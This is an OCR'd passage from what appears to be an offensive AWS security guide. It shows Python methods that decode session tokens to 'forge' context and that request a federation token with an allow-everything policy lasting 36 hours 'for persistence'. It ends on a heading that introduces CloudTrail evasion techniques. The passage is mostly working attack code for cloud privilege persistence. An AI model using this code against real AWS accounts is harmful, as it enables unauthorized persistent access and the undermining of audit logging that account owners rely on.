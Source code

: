 ```python
            return token_analysis

        except Exception as e:
            print(f"Token extraction failed: {e}")
            return None

    def forge_session_context(self, original_token):
        """Attempt to forge or extend session context"""
        # Decode session token (base64 encoded JSON)
        import base64

        try:
            # Session tokens contain encoded context
            token_parts = original_token.split('.')
            for part in token_parts:
                try:
                    decoded = base64.b64decode(part + '==').decode('utf-8')
                    context = json.loads(decoded)
                    print(f"Token context: {context}")
                except:
                    continue

        except Exception as e:
            print(f"Token analysis failed: {e}")

    def abuse_federation_tokens(self, federated_user_name):
        """Abuse federation tokens for persistence"""
        try:
            # Get federation token with extended duration
            response = self.sts.get_federation_token(
                Name=federated_user_name,
                Policy=json.dumps({
                    "Version": "2012-10-17",
                    "Statement": [
                        {
                            "Effect": "Allow",
                            "Action": "*",
                            "Resource": "*"
                        }
                    ]
                }),
                DurationSeconds=129600  # 36 hours
            )

            return response['Credentials']

        except Exception as e:
            print(f"Federation token abuse failed: {e}")
```

## CloudTrail Evasion Techniques
